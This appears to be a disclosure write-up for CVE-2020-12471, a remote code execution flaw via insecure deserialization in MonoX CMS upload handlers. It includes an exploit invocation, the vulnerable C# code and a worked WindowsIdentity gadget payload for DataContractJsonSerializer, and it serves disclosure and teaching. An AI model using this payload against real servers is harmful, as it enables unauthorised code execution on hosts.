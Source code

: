 ```yaml
---
layout: default
grand_parent: MonoX CMS
nav_order: 1
parent: CVE-2020-12471 - RCE via Insecure Deserialization
title: RCE via HTML5Upload and SilverLightUploadHandler
---
```

# HTML5Upload and SilverLightUploadHandler - Remote Code Execution via Insecure Deserialization

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadHandler`. The combined manipulation of the of the **ThumbnailSizeArgs** an **ThumbnailSizeType** parameters leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12471. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit [script](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/MonoX%20CMS/Remote%20Code%20Execution%20via%20Insecure%20Deserialization/HTML5Upload%20-%20Remote%20Code%20Execution%20via%20Insecure%20Deserialization/exploit.py) is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily found through a deep code analysis. The affected code block is the following one:

```csharp
if (base.Request.Form["ThumbnailSizeArgs"] != null && base.Request.Form["ThumbnailSizeType"] != null)
    {
        try
        {
            string @string = Encoding.UTF8.GetString(Convert.FromBase64String(base.Request.Form["ThumbnailSizeType"]));
            this.ThumbnailSize = (JsonSerializer.Deserialize(Convert.FromBase64String(base.Request.Form["ThumbnailSizeArgs"]), Type.GetType(@string)) as ThumbnailSizeEventArgs);
        }
        catch (Exception logMessage)
        {
            this.log.Error(logMessage);
        }
    }
```

As observable, the JsonSerializer is deserializaing directly the request parameter `ThumbnailSizeArgs`, without any prior validation of its content.

The `JsonSerializer` object is an instance of the custom MonoX class `MonoSoftware.Core.JsonSerializer`. Studing this class, it was possible to identify the actual implementation of the Deserialize function call:

```csharp
public static object Deserialize(Stream content, Type type)
    {
        DataContractJsonSerializer dataContractJsonSerializer = new DataContractJsonSerializer(type);
        DataContractJsonSerializer dataContractJsonSerializer2;
        if (5 != 0) // Decompiled if
        {
            dataContractJsonSerializer2 = dataContractJsonSerializer;
        }
        return dataContractJsonSerializer2.ReadObject(content);
    }
```

From that, it was possible to ascertain that the deserialization routine was using `DataContractJsonSerializer`, taking `ThumbnailSizeArgs` as the seriliazed payload, and `ThumbnailSizeType` as the type to use for deserialization.

`DataContractJsonSerializer` is one of the .NET formatters that are basically secure, and usually free from deserialization issues, as it uses a strong object graph inspection, forbidding the deserialization of non-whitelisted objects. However, even `DataContractJsonSerializer` can be affected by insecure deserialization if the "Type" parameter passed to `Deserialize` is controllable by an external attacker, as this "Type" is automatically added to the whitelist. It may be obvious, but that was the case.

As no automatic payload generator was available in **ysoserial.net**, crafting the payload for this instance required a bit of manual interaction. After a bit of research, it was clear that `WindowsIdentity` was the right POP chain to use, as it supports `DataContractSerializer`, and because its payload is a "one level" XML.

```xml
<root type="System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <WindowsIdentity xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:x="http://www.w3.org/2001/XMLSchema" xmlns="http://schemas.datacontract.org/2004/07/System.Security.Principal">
      <System.Security.ClaimsIdentity.actor i:type="x:string" xmlns="">
          {base64-encoded-payload}
      </System.Security.ClaimsIdentity.actor>
       </WindowsIdentity>
</root>
```
From the XML above, it was possible to identify all the needed information to craft the final exploit:

**Type**

```
System.Security.Principal.WindowsIdentity, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

**Payload**

Transformed in JSON format, the payload was reduced to:

```json
{"System.Security.ClaimsIdentity.actor":"[base64-encoded-payload]"}
```

Upon deserialization, it was then possible to execute arbitrary code on the underlying Windows Hosting Server.  

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)